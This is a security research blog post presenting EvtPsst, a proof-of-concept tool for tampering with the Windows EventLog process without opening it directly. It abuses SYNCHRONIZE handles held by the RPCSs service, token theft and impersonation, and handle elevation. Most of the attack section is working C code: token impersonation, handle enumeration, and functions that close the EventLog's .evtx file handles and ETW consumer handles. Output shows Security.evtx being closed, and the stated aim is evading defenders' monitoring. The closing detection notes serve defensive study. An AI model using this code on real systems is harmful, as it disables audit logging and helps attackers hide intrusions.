

## testert01 Blog

In this blogpost I demonstrate how an attacker could tamper with the EventLog Process without an OpenProcess call to the EventLog process itself.

This tool abuses exposed Synchronize Handles of the RPCSs service as well as an exposed process token of the EventLog process to reconstruct a full process handle to the EventLog process in the UserMode.

tl;dr:

    - OpenProcess Call to RPCSs svchost process with PROCESS_QUERY_LIMITED_INFORMATION
    - Impersonate Local System
    - Steal the Process Token of the RPCSs Service
    - Impersonate the RPCSs process token
    - Elevate Handle to the RPCSs Process to PROCESS_DUP_HANDLE rights
    - Enumerate the process token of the EventLog Process in the RPCSs Process
    - BruteForce the SYNCHRONIZE handle via Handle Elevation with the help of the EventLog Process token and RPCSs process token
    - Profit, (Closing the ETW Consumer Handles is just implemented as POC)


A POC called [EvtPsst](https://github.com/nothingspecialforu/EvtPsst) was released.


## Background

This blogpost describes an attack on the EventLog Process.

To understand the blogpost there are several Windows Concepts needed. In the following I do a short recap over the most important things.

If you are already familiar with windows internals you can skip the background section and start at Original idea.

### Processes

In Windows there are different types of processes and different protection levels of processes. In this case we focus on normal processes with no protection level cause the EventLog process has no protection.

Each process in Windows is executed under the context of a user. The EventLog Process is executed as "NT Authority\Local Service".


[Processes and Threads Msdn](https://learn.microsoft.com/en-us/windows/win32/procthread/processes-and-threads)

#### Process Access Rights

When you want to open a process there are several access rights you can request. The access right defines which actions you can do with the process handle. Depending on the access you request and on the context (user) that the remote process is running there are several checks performed in order to let you open it.

The most important access rights for this blog articel are:
<br/>

*PROCESS_QUERY_LIMITED_INFORMATION Granted Access: 0x1000*
<br/>
That is the least needed access right to steal a process token of a remote process.

*PROCESS_DUP_HANDLE Granted Access: 0x40*
<br/>
Required to duplicate a handle using [DuplicateHandle](https://learn.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-duplicatehandle).


The simplest way to terminate the EventLog Process would be via an OpenProcess Call on the EventLog Process with *PROCESS_TERMINATE* rights and terminate the Process via [TerminateProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-terminateprocess).

Here is a list of all [Process Security and Access Rights](https://learn.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights).

<br/>

#### Process DACLS

A DACL is a discretionary access control list that checks if the access is allowed to the object.
Every process in Windows counts as unnamed kernel object. Each kernel object can be secured via a DACL. Every Process has a DACL and a SACL. Sometimes it is a NULL DACL.

A SACL (System Access Control List) has the possibility to say generate a log entry when access happens to this object.

Note: Object Access Audit Logging needs to be enabled for this.


For further background: [Access Control Model](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-control-model).

<br/>

#### Se Debug Privilege

In Windows there are many special privileges.

The most important one for processes is this one:
*SeDebugPrivilege*

The description is: 
Required to debug and adjust the memory of a process owned by another account.
User Right: Debug programs.

Even if a DACL is in Place, an attacker can use the SeDebug Privilege to Bypass existing DACLs.

Note: This only works if the process is not protected.

To view all the privileges, check this article from Microsoft:
[Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants).

<br/>

### Token

Each process has a primary token that describes under which user a process is running.

For further information about tokens check out this page: [Access-Tokens](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-tokens).
#### Token Access Rights

Like processes, token objects also have access rights.

In this blog article we take a special look at the following rights:

*TOKEN_QUERY* &emsp;Required to query an access token.
<br/>
*TOKEN_DUPLICATE*&emsp;Required to duplicate an access token.
<br/>
*TOKEN_ASSIGN_PRIMARY*&emsp;Required to attach a primary token to a process.
<br/>

Here is a list of all [token access rights](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-rights-for-access-token-objects).

<br/>

#### Token DACLS

Like processes, token objects also have a DACL that specifies who can access the token object.

Note: An Se Debug privilege does not bypass the access to tokens.

An access token has the following parts:

*TOKEN__CONTROL*
<br/>
*TOKEN_DEFAULT_DACL*
<br/>
*TOKEN_GROUPS*
<br/>
*TOKEN_OWNER*
<br/>
*TOKEN_PRIMARY_GROUP*
<br/>
*TOKEN_PRIVILEGES*
<br/>
*TOKEN_SOURCE*
<br/>
*TOKEN_STATISTICS*
<br/>
*TOKEN_USER*


<br/>

### Handles

In windows, there are different types of handles.

A process can have access to files, processes, tokens, ETW Consumers and many other things.

A handle from a view of the usermode is an identifier that points to maps with an entry in the handle table of a process.

The handle table of a process is only writeable from Kernelmode.

From Kernel perspective:

The handle table is defined in the [_EPROCESS](https://www.vergiliusproject.com/kernels/x64/Windows%2011/22H2%20(2022%20Update)/_EPROCESS) structure.

That points to [_HANDLE_TABLE](https://www.vergiliusproject.com/kernels/x64/Windows%2011/22H2%20(2022%20Update)/_HANDLE_TABLE).

Each entry looks like [this](https://www.vergiliusproject.com/kernels/x64/Windows%2011/22H2%20(2022%20Update)/_HANDLE_TABLE_ENTRY).


From user mode perspective we can query some details via the [NtQuerySystemInformation](https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntquerysysteminformation) function.

Via an undocumented value SystemHandleInformation = 16 we can get a list of SYSTEM_HANDLE entries.

Each entry looks like this.

```c
typedef struct SYSTEM_HANDLE
{
    ULONG ProcessId;
    BYTE ObjectTypeNumber;
    BYTE Flags;
    USHORT Handle;
    PVOID Object;
    ACCESS_MASK GrantedAccess;
} SYSTEM_HANDLE, * PSYSTEM_HANDLE;
```

With that information we get the handle information of all processes.

*ProcessId*: Specifies the Process Id where the handle is located
<br/>
*ObjectTypeNumber*: Specifies an ObjectTypeNumber for the Type of the Object (eg. File / Process, ...)
<br/>
*Flags*: Gives the Information if a handle is inherited to a childprocess or if the handle is protected from closing
<br/>
*Handle*: Is the entry id of the handle table in the kernel struct
<br/>
*Object*: Points to the Object in the kernel (for Processes the _EPROCESS struct)
<br/>
*GrantedAccess*: Specifies which Access was granted to the object
<br/>


For more information about handles, check out the [microsoft pages](https://learn.microsoft.com/en-us/windows/win32/sysinfo/handles-and-objects).

<br/>

### Handle Duplication

An developer can use the DuplicateHandle function to duplicate handles from other process in its own process.

The *PROCESS_DUP_HANDLE* Access right is required for that type of operation.

Note: SeDebugPrivilege is not checked and can not used for bypasses.

The function definition is:

```c
BOOL DuplicateHandle(
  [in]  HANDLE   hSourceProcessHandle,
  [in]  HANDLE   hSourceHandle,
  [in]  HANDLE   hTargetProcessHandle,
  [out] LPHANDLE lpTargetHandle,
  [in]  DWORD    dwDesiredAccess,
  [in]  BOOL     bInheritHandle,
  [in]  DWORD    dwOptions
);

```

<br/>

### Handle Elevation

An developer can use the DuplicateHandle function to duplicate a handle from its own process with a higher Access Mask to its own process and therefore evelate the handle.

This can be done via the GetCurrentProcess() function for the Source and TargetProcessHandle and a higher access mask for the dwDesiredAccess parameter.

<br/>

### Remote Handle Closing

An developer can use the DuplicateHandle function to close Handles from a remote process. This can be done by specifying the DUPLICATE_CLOSE_SOURCE flag for dwOptions.


<br/>

## Original Idea

The first thing that came into my mind was muting the EventLog process by closing the file handles of the EventLog Svchost Process. Therefore I needed to Open the EventLog Process with *PROCESS_QUERY_LIMITED_INFORMATION* steal the token of the EventLog Process and elevate the handle to a full process handle.

Therefore I had to enumerate the handles that are active in the process.


To get the process id of the service we could do a simple WMI query and search for the Pid of the Eventlog process.


*select name, processid from Win32_Service where Name = 'EventLog'*


Afterwards we could enumerate all handles for the EventLog Process with the Process Id.


```c
	do {
		ntStatus = pfnNtQuerySysteminformation((SYSTEM_INFORMATION_CLASS)SystemHandleInformation, pBuffer, bufferSize, &bufferSize);
		if (!NT_SUCCESS(ntStatus)) {
			if (ntStatus == STATUS_INFO_LENGTH_MISMATCH) {
				if (pBuffer != NULL) {
					VirtualFree(pBuffer, 0, MEM_RELEASE);
				}
				pBuffer = VirtualAlloc(NULL, bufferSize, MEM_COMMIT, PAGE_READWRITE);
				continue;
			}
			break;
		}
		else {
			pHandleInfo = (PSYSTEM_HANDLE_INFORMATION)pBuffer;
			break;
		}

	} while (1);
```


Afterwards I tried to open the EventLogProcess with *PROCESS_QUERY_LIMITED_INFORMATION* from a high integrity session.

This worked fine, but when I tried to open the process token of the EventLog Process I got the error access denied.


Afterwards I started process hacker with system privileges to get more insights.


We can see we have only Query rights as administrator for the token, so we have to first find a token that is running as system in order to steal the token of the EventLog process.

In order to steal a system token we first have to find a process that is running as system. Furthermore the DACL of this process needs to allow an local administrator to access the process with *PROCESS_QUERY_LIMITED_INFORMATION* that we do not have to enable the *SeDebugPrivilege*. The next step is that the process token needs to have a DACL that allows local Administrators to open the process token with *TOKEN_QUERY | TOKEN_ASSIGN_PRIMARY | TOKEN_DUPLICATE* access rights.

So lets search a process that meets this requirements.

We can go through a list of all process ids and check if this function succeeds and afterwards we can check which processes are running as system.

```c
HANDLE ImpersonateTokenofPID(DWORD dwPID) {
	
	DWORD dwSuccess = FAIL;
	BOOL bSuccess = FALSE;
	
	HANDLE hProcess = NULL;

	HANDLE hToken = NULL;
	hProcess = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, dwPID);
	if (hProcess == NULL) {
		goto exit;
	}

	dwSuccess = OpenProcessToken(hProcess, TOKEN_QUERY | TOKEN_ASSIGN_PRIMARY | TOKEN_DUPLICATE, &hToken);
	if (dwSuccess == FAIL) {
		printf("[-] Could not open process token of PID: %d\n", dwPID);
		goto exit;
	}
	bSuccess = ImpersonateLoggedOnUser(hToken);
	if (bSuccess == FAIL) {
		printf("[-] Could not impersonate Token of the PID: %d\n", dwPID);
		goto exit;
	}else{
        RevertToSelf();
    }

exit:

	return hToken;
}
```

After a bit digging at the outcome I could find the ProvSvc, that runs as system and a administrator is able to impersonate the access token.


When we impersonate this token we can successfully steal the process token of the EventLog Process.

We can elevate the local process handle of the EventLogProcess to a process handle with higher rights.

Afterwards I implemented a function called CloseEvtxFileHandle. With the close file handle function I tried to get the ObjectTypeNumber of file handles from my own process first.

We could do that because the access right 0x12019f that is pretty specific to files.

Afterwards we close all the File Handles that have an ".evtx" via the DuplicateHandle function.

Note: Named Pipes are also seen as file handles in Windows.


```c
DWORD CloseEvtxFileHandle(PSYSTEM_HANDLE_INFORMATION pHandleInfo, DWORD dwPidEventlog, HANDLE hTokenEvtLog, HANDLE hProcessEventlogduplicatequery) {
	DWORD dwSuccess = FAIL;
	DWORD dwSuccessall = SUCCESS;
	DWORD dwownProcessID = 0;
	dwownProcessID = GetCurrentProcessId();

	DWORD dwHandleCount = 0;

	BYTE bHandleTypeNumberFile = 0;

	dwHandleCount = pHandleInfo->HandleCount;
	HANDLE hmNtdll = NULL;

	//Get Object Type Numbers for File Handles
	for (DWORD dwCounterHandle = 0; dwCounterHandle < dwHandleCount; dwCounterHandle++) {
		PSYSTEM_HANDLE pSystemHandle = NULL;
		pSystemHandle = &pHandleInfo->Handles[dwCounterHandle];
		if (pSystemHandle->GrantedAccess == 0x12019f && pSystemHandle->ProcessId == dwownProcessID) {
			bHandleTypeNumberFile = pSystemHandle->ObjectTypeNumber;
			break;
		}
	}

	//We need only the Eventlog token for the handle duplication from the eventlog process
	dwSuccess = ImpersonateLoggedOnUser(hTokenEvtLog);
	if (dwSuccess == FAIL) {
		printf("[-] Could not Impersonate EventLog Token\n");
	}
	
	//Get Ntdll Handle
	hmNtdll = GetModuleHandleA("ntdll.dll");
	if (hmNtdll == NULL) {
		printf("[-] Could not get NTDLL Module Handle\n");
		return FAIL;
	}

	//Create Pointer to NtQueryInformationFile Function
	_NtQueryInformationFile pNtQueryInformationFile = NULL;
	pNtQueryInformationFile = (_NtQueryInformationFile)(GetProcAddress(hmNtdll, "NtQueryInformationFile"));
	if (pNtQueryInformationFile == NULL) {
		printf("[-] Could not get Pointer to the NtQueryInformationFile function\n");
		return FAIL;
	}

	NTSTATUS ntStatus = STATUS_SUCCESS;
	IO_STATUS_BLOCK iostatusblock = { 0x00 };
	FILE_NAME_INFORMATION FileNameInformationSpace = { 0x00 };
	ULONG FileNamelength = 0;

	//Get File Handles
	for (DWORD dwCounterHandle = 0; dwCounterHandle < dwHandleCount; dwCounterHandle++) {
		PSYSTEM_HANDLE pSystemHandle = NULL;
		pSystemHandle = &pHandleInfo->Handles[dwCounterHandle];
		if (pSystemHandle->GrantedAccess == (ACCESS_MASK)0x12019f && pSystemHandle->ProcessId == (ULONG)dwPidEventlog && pSystemHandle->ObjectTypeNumber == bHandleTypeNumberFile) {
			DWORD dwSuccess = FAIL;
			HANDLE hFile = NULL;

			//Kills Evtx + eventlog Named Pipe
			dwSuccess = DuplicateHandle(hProcessEventlogduplicatequery, (HANDLE)(pSystemHandle->Handle), GetCurrentProcess(), &hFile, 0x12019f, FALSE, 0);
			if (dwSuccess == FAIL) {
				printf("[-] Could not duplicate File Handle\n");
				dwSuccessall = FAIL;
			}
			else {
				
				//Clearing of the structs
				ZeroMemory(&iostatusblock, sizeof(iostatusblock));
				ZeroMemory(&FileNameInformationSpace, sizeof(FileNameInformationSpace));


				ntStatus = pNtQueryInformationFile(hFile, &iostatusblock, &FileNameInformationSpace, sizeof(FileNameInformationSpace), FileNameInformation);
				FileNamelength = iostatusblock.Information;
				ZeroMemory(&iostatusblock, sizeof(iostatusblock));


				ZeroMemory(&FileNameInformationSpace, sizeof(FileNameInformationSpace));
				ntStatus = pNtQueryInformationFile(hFile, &iostatusblock, &FileNameInformationSpace, FileNamelength, FileNameInformation);

				wchar_t wending[] = L".evtx";

				LPWSTR pEnding = NULL;
				pEnding = (LPWSTR)((PBYTE)(FileNameInformationSpace.FileName) + (FileNamelength - 7 * 2));

				//Check if its a evtx File Handle
				if (lstrcmpW(wending, pEnding) == 0) {
					CloseHandle(hFile);
					hFile = NULL;
					dwSuccess = DuplicateHandle(hProcessEventlogduplicatequery, (HANDLE)(pSystemHandle->Handle), GetCurrentProcess(), &hFile, 0x12019f, FALSE, DUPLICATE_CLOSE_SOURCE);
					if (dwSuccess == FAIL) {
						printf("[-] Could not close File Handle: %x, name: %ls\n", (pSystemHandle->Handle), FileNameInformationSpace.FileName);
						dwSuccessall = FAIL;
					}
					else {
						printf("[+] Closed Filehandle: %x, name: %ls\n", (pSystemHandle->Handle), FileNameInformationSpace.FileName);
						CloseHandle(hFile);
					}
				}
				else {
					CloseHandle(hFile);
				}


				
			}


		}

	}

	
	return dwSuccess;
}
```


The output was now:

```
[+] Closed Filehandle: 1bc
, name: \Windows\System32\winevt\Logs\Microsoft-Windows-WinINet-Config%4ProxyConfigChanged.evtx
[+] Closed Filehandle: 1f0
, name: \Windows\System32\winevt\Logs\Microsoft-Windows-BitLocker%4BitLocker Management.evtx
[+] Closed Filehandle: 280
, name: \Windows\System32\winevt\Logs\Microsoft-Windows-Kernel-Power%4Thermal-Operational.evtx
[+] Closed Filehandle: 298
, name: \Windows\System32\winevt\Logs\Microsoft-Windows-Biometrics%4Operational.evtx
[+] Closed Filehandle: 2b0
, name: \Windows\System32\winevt\Logs\Security.evtx
```

Every seemd to work, but the EventLog Process crashed. Defenders can monitor process exits with Sysmon, so this solution was not acceptable for me.

I played with the handles and checked the outcomes. Then I had the idea to mute the EventLog ETW Consumer handles.

This was basically done via the same way.

The access mask of ETW Consumer handles was 0x400, which looked pretty unique to me.

```c
DWORD CloseETWConsumerHandle(PSYSTEM_HANDLE_INFORMATION pHandleInfo, DWORD dwPidEventlog, HANDLE hTokenEvtLog, HANDLE hProcessEventlogduplicatequery) {
	DWORD dwSuccess = FAIL;
	DWORD dwSuccessfull = 0;
	DWORD dwtotal = 0;

	DWORD dwHandleCount = 0;

	dwHandleCount = pHandleInfo->HandleCount;


	//We need only the Eventlog token for the handle duplication from the eventlog process
	dwSuccess = ImpersonateLoggedOnUser(hTokenEvtLog);
	if (dwSuccess == FAIL) {
		printf("[-] Could not Impersonate EventLog Token\n");
	}
	


	//Get ETW Consumer Handles
	for (DWORD dwCounterHandle = 0; dwCounterHandle < dwHandleCount; dwCounterHandle++) {
		PSYSTEM_HANDLE pSystemHandle = NULL;
		pSystemHandle = &pHandleInfo->Handles[dwCounterHandle];
		if (pSystemHandle->GrantedAccess == (ACCESS_MASK)0x400 && pSystemHandle->ProcessId == (ULONG)dwPidEventlog) {
			DWORD dwSuccess = FAIL;
			HANDLE hEtwConsumer = NULL;
			dwtotal++;
			//Kills ETW Consumer Handles
			dwSuccess = DuplicateHandle(hProcessEventlogduplicatequery, (HANDLE)(pSystemHandle->Handle), GetCurrentProcess(), &hEtwConsumer, 0x400, FALSE, DUPLICATE_CLOSE_SOURCE);
			//Althought it says request not supported, it works ;)
			if (GetLastError() == 50) {
				dwSuccess = SUCCESS;
			}
			if (dwSuccess == FAIL) {
				printf("[-] Could not close ETW Consumer Handle: %x\n", pSystemHandle->Handle);
			}
			else {
				dwSuccessfull++;
				printf("[+] Successfully closed ETW Consumer Handle: %x\n", pSystemHandle->Handle);
				CloseHandle(hEtwConsumer);		
			}


		}

	}
	if (dwtotal == 0) {
		return FAIL;
	}
	if (dwtotal == dwSuccessfull) {
		return SUCCESS;
	}


	return FAIL;;
}
```

The tool looked pretty finished to me.

I used process hacker to search for handles and noticed that another svchost.exe process has a process handle to the EventLog process.


We can see that the RPCSs process has *SYNCHRONIZE* access to the EventLog process.



With only Synchronize Access we are not even able to query the filename of the process, but I now had the plan to develop a EventLog Tamper tool without an *OpenProcess* Call to the EventLog Process itself.

My plan is to duplicate the *SYNCHRONIZE* process handle from the RPCSs process into my own process and then elevate it via Handle Elevation.


We have one problem, we can not enumerate which of the *SYNCHRONIZE* handle matches to the EventLog Process.

So we need to clone all process handles with *SYNCHRONIZE* Access and check which of them is from the EventLog Process.

For the Handle Evelation from the *SYNCHRONIZE* Handle to a Handle with *PROCESS_QUERY_INFORMATION | PROCESS_DUP_HANDLE* rights we need exactly the token of the EventLog Process.

But how can we get the access token of the EventLog Process without opening the EventLog Process itself with an *OpenProcess* call?

First option would be we can forge an EventLog Token by ourselfs, another option would be an exposed EventLog token by another process.


Which requirements do we need in order to bake us a token that looks like EventLog?


If we take a look at the token of the EventLog Process we notice the following:
- The token is for the user "NT AUTHORITY\LOCAL SERVICE"
- The token has a Token Group for "NT SERVICE\EventLog"
- The token has a Logon ID that is different at each startup of the process


If we take a look at the [microsoft page](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-logonusera) we can see that we can forge a token for the *LOCAL SERVICE* User.

```c
LogonUser(L"LocalService", L"NT AUTHORITY", NULL, LOGON32_LOGON_SERVICE, LOGON32_PROVIDER_DEFAULT, &hToken)
```

However this requires us to hold the SeCreateToken or the SeTcbPrivilege.

The SeCreateToken privilege is hold by the lsass process, that is typically heavily monitored in environments, so we have to steal a token from another process.

The winlogon process holds the SeTcbPrivilege but is also sometimes monitored strongly from defenders.

The SysMain service also meets our requirements.


If we only have the user match, it is not enough to elevate the handle of the EventLog Process, so we have to dig deeper.

The kernel checks specific token groups at the handle elevation, this happens after the SeCreateAccessStateEx over the ObpGrantAccess function in the kernel.

We need to find a way to pass token groups into a newly created token.
Via Debugging of the LogonUserA function we can find different functions that get called afterwards.

The [LogonUserExExW](https://learn.microsoft.com/en-us/windows/win32/secauthn/logonuserexexw) function provides us the possibility to create a token as LOCAL SERVICE with Token Groups we specify.

```c
BOOL WINAPI LogonUserExExW(
  _In_      LPTSTR        lpszUsername,
  _In_opt_  LPTSTR        lpszDomain,
  _In_opt_  LPTSTR        lpszPassword,
  _In_      DWORD         dwLogonType,
  _In_      DWORD         dwLogonProvider,
  _In_opt_  PTOKEN_GROUPS pTokenGroups,
  _Out_opt_ PHANDLE       phToken,
  _Out_opt_ PSID          *ppLogonSid,
  _Out_opt_ PVOID         *ppProfileBuffer,
  _Out_opt_ LPDWORD       pdwProfileLength,
  _Out_opt_ PQUOTA_LIMITS pQuotaLimits
);
```

The psgetsid Sysinternal tool can be used to get the SID of the EventLog.


We can then use the [ConvertStringSidToSidA](https://learn.microsoft.com/en-us/windows/win32/api/sddl/nf-sddl-convertstringsidtosida) function to get the SID structure required for the token groups.

```c
BOOL ConvertStringSidToSidA(
  [in]  LPCSTR StringSid,
  [out] PSID   *Sid
);
```

The last part was the logon session id that was specified in the EventLog process token.

I tried to receive the logon session Id via the [LsaEnumerateLogonSessions](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-lsaenumeratelogonsessions) function, but I only got the Logon Session id for Local Service, but not specifically for "NT Service\EventLog". A search in the registry was also unsuccessful.


I could not find any way to get the EventLogProcess Session Id without a valid token of the eventlog process, but I guess it would be possible to bruteforce the logon session id.

I thought the logon session id bruteforcing would take a lot of attempts. Especially we need to do the logon session id bruteforcing for each process handle with *SYNCHRONIZE* access in the RPCSs process, because we only know at a successfull logon session id bruteforcing when a that it was the process handle of EventLog.


Let's take a look how the RPCSs process gets the *SYNCHRONIZE* access to the EventLog process.

If we want to reverse engineer a svchost process we need to care that the functionality for the service is mostly implemented in a dll with its own ServiceMain function.

In case of RPCSs this seemed to be implemented in the rpcss.dll.


We can now copy the rpcss.dll into a reversing environment and analyze the dll with a disassembler.

For me my favorite tool in that case is binary ninja.

So I threw the binary into binary ninja and started to analyze the dll.

After some searches for *OpenProcess* and *DuplicateHandle* API Calls I found the interesting part of the dll.


In the screenshot we can see that the RPCSs process elevates an existing process handle to *SYNCHRONIZE* access and registers a function at RegisterWaitForSingleObjectEx for it.

But how can the RPCSs process elevate the handle?

For the handle elevation it is required to impersonate a token of that process, so the RPCSs should have an EventLog Process token somewhere.

If we take a look at the RPCSs process we can see that the RPCSs process has many token handles for "Local Service".


In that case we see that this Local Service Token is for the *WinHttpAutoProxySvc*. So lets enumerate the RPCSs Process and maybe there is also a token exposed for the EventLog process.


We can do this by duplicating one token after the next and check if the token is running as EventLog.

```c
DWORD checkTokenGroups(HANDLE hToken) {
	DWORD dwSuccess = FAIL;
	DWORD dwSizeneeded = 0;
	PTOKEN_GROUPS pTokenGroups = NULL;
	pTokenGroups = getTokenInfos(hToken, &dwSizeneeded);

	if (pTokenGroups == NULL) {
		printf("[-] No Token Groups found\n");
		return dwSuccess;
	}


	PSID_AND_ATTRIBUTES pSidAttributes, pSidAttributesorig = NULL;
	pSidAttributesorig = pTokenGroups->Groups;
	DWORD dwCountGroups = 0;
	dwCountGroups = pTokenGroups->GroupCount;

	

	for (DWORD i = 0; i < dwCountGroups; i++) {
		pSidAttributes = (PSID_AND_ATTRIBUTES)((PBYTE)pSidAttributesorig + (BYTE)(i * (BYTE)sizeof(SID_AND_ATTRIBUTES)));

		PSID pSID = NULL;
		pSID = (PSID)(pSidAttributes->Sid);

		LPTSTR psidString = NULL;
		WCHAR username[MAX_NAME] = { 0x00 };
		WCHAR domainname[MAX_NAME] = { 0x00 };
		SID_NAME_USE sidtype = { 0x00 };
		DWORD dwSizeUserName = sizeof(username);
		DWORD dwSizeDomainName = sizeof(domainname);


		dwSuccess = ConvertSidToStringSidW(pSID, &psidString);
		if (dwSuccess == FAIL) {
			continue;
		}
		if (psidString == NULL) {
			printf("[-] Got no SID\n");
			continue;
		}

		

		dwSuccess = LookupAccountSid(NULL, pSID, username, &dwSizeUserName, domainname, &dwSizeDomainName, &sidtype);
		if (dwSuccess == FAIL) {
			if (ERROR_NONE_MAPPED != GetLastError()) {
				//Mapping is some times not possible
				printf("[-] Could not Lookup SID\n");
			}		
			continue;
		}
		dwSuccess = FAIL;
		if (lstrcmpW(username, L"EventLog") == 0) {
			dwSuccess = SUCCESS;
			goto exit;
		}

	}

exit:
	if (pTokenGroups) {
		VirtualFree(pTokenGroups, 0, MEM_RELEASE);
	}
	
	return dwSuccess;


}
```


After a lot of tries we have an valid EventLog process token and we are able to elevate a *SYNCHRONIZE* handle to *PROCESS_QUERY_INFORMATION* | *PROCESS_DUP_HANDLE* if we get the right *SYNCHRONIZE* handle of the EventLog Process.


For the bruteforce we either have to duplicate all RPCSs *SYNCHRONIZE* handles at once or step through them one by one.

In that case I decided to do a one by one bruteforce.

For the one by one bruteforce I need to switch between the RPCSs Token and the Eventlog Token for each Synchronize Handle until I can successfully duplicate the handle to the Eventlog process with the Eventlog process token.

<br/>

## Recap


    - OpenProcess Call to RPCSs svchost process with PROCESS_QUERY_LIMITED_INFORMATION
    - Impersonate Local System
    - Steal the Process Token of the RPCSs Service
    - Impersonate the RPCSs process token
    - Elevate Handle to the RPCSs Process to PROCESS_DUP_HANDLE rights
    - Enumerate the process token of the EventLog Process in the RPCSs Process
    - BruteForce the SYNCHRONIZE handle via Handle Elevation with the help of the EventLog Process token and RPCSs process token
    - Profit, (Closing the ETW Consumer Handles is just implemented as POC)

<br/>

## Detection Notes

- No OpenProcess Call to the EventLog Process can be observed
- No SeDebug Privilege is used
- Switch of NT AUTHORITY\NETWORK SERVICE and NT AUTHORITY\LOCAL SERVICE at the bruteforce
- Via Kernel driver: [OB_OPERATION_HANDLE_DUPLICATE](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/ns-wdm-_ob_pre_operation_information)
- You can also apply a SACL to the EventLog and RPCSs process to detect such activities [SACLProtect](https://github.com/codewhitesec/SysmonEnte/tree/main/SACLProtect)


<br/>


## References
[Github nothingspecialforu](https://github.com/nothingspecialforu)
<br/>

[Twitter testert01](https://twitter.com/testert01)
<br/>

[Kernel Structs](https://www.vergiliusproject.com)
